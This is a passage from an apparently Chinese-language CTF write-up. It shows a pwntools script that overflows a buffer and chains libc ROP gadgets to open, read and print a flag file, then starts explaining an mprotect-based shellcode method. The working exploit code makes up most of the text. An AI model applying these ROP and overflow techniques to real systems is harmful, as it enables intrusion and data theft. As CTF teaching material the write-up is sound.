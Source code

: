 ```python

pop_rdx_r12 = libc_base + 0x11c421
pop_rsi = libc_base + 0x2709c 
payload = 'a' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(bss) + p64(pop_rdx_r12) + p64(4) + p64(0) +  p64(read) + p64(0x401290)

payload = payload.ljust(0x100,'a')
rn('\n')
p.send(payload)
p.send('flag')
success('set string success!')

rn(':')
p.send('\x00'*8)
payload = 'a' * 0x48 + p64(pop_rdi) +  p64(bss) + p64(pop_rsi) + p64(0) + p64(pop_rdx_r12) + p64(0) + p64(0) + p64(open) + p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(bss) + p64(pop_rdx_r12) + p64(100) + p64(0) + p64(read) +  p64(0x401290)
print(len(payload))
payload = payload.ljust(0x100,'a')
rn('\n')
p.send(payload)
success('read file success!')

rn(':')
p.send('\x00'*8)
payload = 'a' * 0x48  + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss) + p64(pop_rdx_r12) + p64(100) + p64(0) +  p64(write) + p64(0x401290)
payload = payload.ljust(0x100,'a')
rn('\n')
p.send(payload)
success('wirte file success!')

p.interactive()
```

#### 方法二：

编写shellcode执行来 **ORW** 获取flag，但是没有可写入并且可执行的程序段，这里要用到一个函数—mprotect

![image-20211230015117252](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a5ed61313f866781bdd7f6739fcbeddbdc1929c6.png)

##### mprotect：

在Linux中，mprotect()函数可以用来修改一段指定内存区域的保护属性。

函数原型如下：

```c
#include <unistd.h>   
#include <sys/mmap.h>   
int mprotect(const void *start, size_t len, int prot);
```
